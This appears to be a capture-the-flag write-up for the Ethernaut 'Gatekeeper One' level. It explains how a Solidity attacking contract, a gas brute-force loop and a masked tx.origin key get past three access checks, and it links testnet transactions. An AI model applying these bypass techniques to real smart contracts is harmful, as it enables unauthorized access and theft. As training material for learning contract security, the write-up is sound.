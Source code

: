 # Gatekeeper One

## Objectives

Make it past the gatekeeper and register as an entrant to pass this level.

## Solution

This contract has 3 modifiers that must be passed in order to make `entrant` the origin of the tx (my address).

1. The transaction calling `enter()` in GatekeeperOne has to be performed by a smart contract, so that `msg.sender` differs from `tx.origin` (address calling the contract that calls `enter()`).
   
2. The remaining gas (`gasleft()`) after the code as ran has to be a multiple of 8191. This can be done my performing an external call to the GatekeeperOne contract where we run the `enter()` function and additionally send both the gas needed to perform the instructions *and* a multiple of 8191. I coded it as follows:

```cs
(success,) = address(gko).call{
            gas: additionalGas + 10*8191
        }(abi.encodeWithSignature(
            'enter(bytes8)', 
            _modifiedTxOriginBytes
        ));
```

where:

* `additionalGas` is the gas sent that can vary and 10*8191 is a multiple of 8191
  
* `_modifiedTxOriginBytes` is `tx.origin` modified heavily in order to pass the third check.

3. The check has 3 require statements where we must have a key of type `bytes8` which has certain characteristics in order to pass the require statements. In summary, `_gateKey` will pass if:

* `uint32(uint64(_gateKey))`, `uint16(uint64(_gateKey))` and `uint16(tx.origin)` are equal, but `uint64(_gateKey)` is not.

In order to achieve this, we need to make some changes to `tx.origin` manually:

* Only keep the first 2 bytes: `0x98bCCA1C6023e3F851090e079030da43d9F229d1` --> `0x00000000000000000000000000000000000029d1`

* Add at least one value within the zeros in the 8 byte range so that when we typecast into `uint64`, the second check passes, meaning that we need to add at least one hex number (0-9 or A-F) in any position marked with an X: `0x000000000000000000000000XXXXXXXX000029d1`

## How I did it

1. Code and deploy (at: `0xdcEae9bA04Ddb9Dfd5F9B589A0d8638e739cD01b`) an attacking contract where I create a function that will call `enter()` in the Gatekeeper One smart contract. 
   
The function takes a parameter `address` and then casts it into `uint64` and then into `bytes8` to pass it to `enter()`, as `enter()` takes a `bytes8` parameter.

The second parameter will be a number, it can be a `uint16` as we will deal with small values. This number will be the amount of gas that will be used by instructions in the Gatekeeper One contract call. A multiple of 8191 has to be added to this message call to the amount of additional gas passed through `additionalGas` in order to pass the 2nd check.

```cs
function callEnter(address _modifiedTxOrigin, uint16 additionalGas) public returns (bool) {
    // modified tx origin is tx origin with tweaks to pass the require statements in `enter()`
    bytes8 _modifiedTxOriginBytes = bytes8(uint64(_modifiedTxOrigin));
    bool success;

    // send a message call with a specific amount of gas + a multiple of 8191
    (success,) = address(gko).call{
        gas: additionalGas + 10*8191
    }(abi.encodeWithSignature(
        'enter(bytes8)', 
        _modifiedTxOriginBytes
    ));

    // require success
    require(success, 'call failed');

    // return result of the success
    return success;
}
```

2. Modify my address (the `tx.origin`, `0x98bCCA1C6023e3F851090e079030da43d9F229d1`) in order to pass the third check, in this case I used `0x0000000000000000000000000000000A000029d1`. This will pass all checks as described in [solution](#solution).

```python
modified_tx_origin = f"0x{'0'*31}A0000{acc.address[-4:]}"
```

3. In order to find the cost of the instructions, I decided to bruteforce the message call until at least one transaction passed and then annotate the typical cost for it. It ended up usually being `211` or `254`. `bruteforce` is a parameter in my function used to solve the challenge, which if `True` will run the loop and execute 200+ txs to find the correct gas to input into `additionalGas`. Once I have the correct gas value, I input it in the else statement and make `bruteforce=False`.

```python
if bruteforce:
    for i in range(100,300,1):
        try:
            tx = gkoattack.callEnter(modified_tx_origin, i, _from)
            print(f"Correct gas: {i}")
            break
        except:
            continue
else:
    tx = gkoattack.callEnter(modified_tx_origin, 211, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x669160ac98274574e76bbe0128e17e845014bf02f7a58ba956d308871f3ffb96


4. Check if we are `entrant`

```cs
entrant_assertion = gatekeeper.entrant() == acc.address
print(f"Address is entrant: {entrant_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x198d705849071054badc7f1648851deb96f216110571ffba7bb87c5f5cb24835

